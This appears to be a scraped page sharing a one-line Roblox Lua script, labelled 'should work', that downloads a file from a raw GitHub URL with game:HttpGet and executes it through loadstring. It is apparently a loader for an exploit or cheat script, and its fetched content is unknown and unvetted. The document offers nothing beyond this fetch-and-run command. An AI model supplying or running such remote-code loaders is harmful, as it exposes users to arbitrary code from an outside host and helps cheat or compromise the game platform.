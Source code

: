 # should work


```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/projectTS1/1/main/loadstring.lua"))()
```
